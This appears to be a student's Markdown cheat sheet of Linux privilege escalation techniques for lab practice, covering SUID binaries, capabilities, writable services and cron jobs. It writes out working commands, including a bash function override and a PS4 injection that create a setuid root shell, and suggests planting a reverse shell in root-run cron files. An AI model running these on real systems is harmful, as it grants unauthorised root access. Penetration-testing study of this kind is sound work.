 ```
```

- IF FILE IS NOT THERE CREATE A FILE AND DON’T FORGET TO GIVE EXECUTION PERMISSIONS

## SUID Enumeration 
```
find / -perm -u=s -type f 2>/dev/null
``` 
gtfo bins, binary versions? look at exploitdb, shared object injection THM task12, strings binary -> look for any path of binaries -> if present
/bin/bash --version ( < 4.2-048)  
function "that absolute path" { /bin/bash -p; }  
export -f "that absolute path"  
call the suid binary ( for doubts THM linprivesc tasks)  
or  
bash --version ( < 4.4)  
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' "that absolute path" /tmp/rootbash -p  
Note: For eg: if python2.7 has suid bit set spawn a tty shell without sudo we can get root

## CAPABILITIES

```
getcap -r / 2>/dev/null  
```
eg: /home/cyber/tarcap_dac_read_search=ep this cap will help us to read any files cmd: tar cf file.tar "path we want"
    
## SERVICE EXPLOITS:
    
- find a service run by root
    
- grep -r "/home/oscp/ip" /etc/ (finding a service for thw writable exe ip in /etc dir)
    
- if the execu table is in writable dir replace that with chmod +s /bin/bash and restart the service/ reboot the server
    
- even if that file is owned by root if dir is owned by user we can replace the file.
    
## CRON JOBS:
    
```
cat /etc/crontab
    
*****jobgetsexecutedeveryminute
    
check root owns that file executes it
    
look for write permission on that file if yes replace with a basic linux reverse shell payload or chmod +s /bin/bash
    
start a listener on kali
    
grep "CRON" /var/log/syslog
```    
## LXD GROUP:
    
